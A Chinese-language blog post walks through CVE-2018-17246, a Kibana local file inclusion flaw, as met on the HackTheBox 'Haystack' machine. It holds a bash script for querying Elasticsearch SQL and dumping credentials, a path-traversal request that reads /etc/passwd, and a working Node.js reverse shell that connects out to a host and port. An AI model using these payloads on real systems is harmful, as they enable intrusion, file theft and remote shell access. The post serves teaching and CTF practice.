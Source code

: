 ```yaml
---
layout:     post
title:      “CVE-2018-17246”
subtitle:   “分析与复现”
date:       2019-7-21
author:     “Soptq”
header-img: "img/post-CVE-2018-17246.jpg"
catalog:    false
d3:         false
password:   false
mathjax:    false
mermaid:    false
tags:
    - CVE
---
```


最近做 HTB::Haystack 的时候遇到一个 CVE-2018-17246 漏洞，搞了一下觉得挺有意思的，正好军训完我就一直在躺尸，也没什么其他的东西来写，就写写这个漏洞吧。

首先这是个 `LFI` 漏洞，存在于低于 `6.4.3 & 5.6.13` 版本的 `Kibana` 上，通过漏洞可以导致 DOS攻击，任意文件读取攻击 ，也可以做 Reverse Shell 。`Kibana` 是 `Elasticsearch` 的核心插件，用来分析数据，搜索 Elasticsearch， 可作为产品或服务提供，与各种系统，产品，网站和企业中的其他 `Elastic Stack` 产品配合。`Elasticsearch` 在大数据领域可以说是大名鼎鼎，可见这个漏洞的影响还是比较大的。

漏洞的复现过程主要是利用 `LFI` ，所以这个漏洞比较适用于提权而非拿到 `webshell`。顺便说一下 `Elasticsearch` 可以通过往 `/_xpack/sql` 发送 `POST` 来做 `sql` 查询，具体的 `curl` 命令如下 :

```sh
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.10.115:9200/_xpack/sql?format=json' --data '{"query": "show functions"}'

# `show functions` 是展示当前可以支持的 `sql` 命令
```

这个可以用来做 `SQL`  注入，嫌每个命令都 `curl` 一大堆的话，我写了一个脚本来简化：

```sh
#!/bin/bash

if [ "$#" != "1" ]; then
	echo "ElasticSearch-SQL V1.0 by Soptq"
	echo " "
	echo "Note:"
	echo "ElasticSearch Version Has to Below 7.0"
	echo " "
	echo "Usage: elasticsearch-sql <Host>"
	echo "Example: elasticsearch-sql http://10.10.10.115:9200/"
else
	initResult=$(curl -s -X POST -H 'Content-Type: application/json' -i "$1_xpack/sql?format=txt" --data '{"query": "show functions"}' | grep error)
	if [ "$initResult" != "" ]; then
		# init failed
		echo "Failed to connect to the Elasticsearch SQL Controller"
		echo "Try Verify the Host"
		echo " "
		echo "Example: elasticsearch-sql http://10.10.10.115:9200/"
	else
		#init successed
		echo "Successefully Connected to the Elasticsearch SQL Controller"
		echo " "
		echo " "
		input=""
		while [ "$input" != "exit" ]
		do
			read -p "> " input
			post_data='{"query": "'$input'"'
			result=$(curl -s -X POST -H 'Content-Type: application/json' -i "$1_xpack/sql?format=txt" --data "$post_data}")
			echo "#> $result"
		done
	fi
fi
```

用这个去 `dump` 一下管理员账号密码，运气好说不定就可以得到一个 `shell`

然后就是 CVE-2018-17246 的复现过程了

漏洞的产生原因主要是没有对
 
```sh
/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=
```

这个接口的输入数据做检验，导致这里可以传入任何数据。污染点在 

```sh
\src\core_plugins\console\api_server\server.js
```

`Apis` 得到的值传递给赋值参数 `name` ，从图上也能看到 `name` 变量的内容没有进行任何过滤被引入到 `require` ，而 `require` 模块在 `Nodejs` 里表示加载模块的方式，可以加载核心模块，例如内置的 `http` ，也可以是包含名为` index.js` 这样的文件或目录如果参数以 `/`、`./`、`../` 开头则函数知道该模块是文件或者文件夹，继续跟进到函数 `asJson` 所在的 `api.js` 文件中。

{% include extensions/lazyload.html img='/img/in-post/post-CVE-2018-17246/1.jpg' %}

{% include extensions/lazyload.html img='/img/in-post/post-CVE-2018-17246/2.jpg' %}

在同级目录下ES_5_0.js 中有一个这个类的导出实例

{% include extensions/lazyload.html img='/img/in-post/post-CVE-2018-17246/3.jpg' %}

总结一下此函数的正常流程是获取导出 `API` 类实例并调用函数 `asJson` 的 `JavaScript` 文件的名称，但是忽略了过滤验证因此我们可以指定任意文件，配合目录跳转遍历就可以实现 `Kibana` 服务器上任意文件读取的操作。

比如我们

```
GET 
/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

发出后客户端对抛出 `500` 错误，但在服务器端会把读取到的 `passwd` 内容抛出来。 

{% include extensions/lazyload.html img='/img/in-post/post-CVE-2018-17246/4.jpg' %}

{% include extensions/lazyload.html img='/img/in-post/post-CVE-2018-17246/5.jpg' %}

通过这个原理，我们得到一个 `shell` 后就可以往 `/tmp` 中写入 `js reverse shell` ，来进行提权：

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "172.18.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```



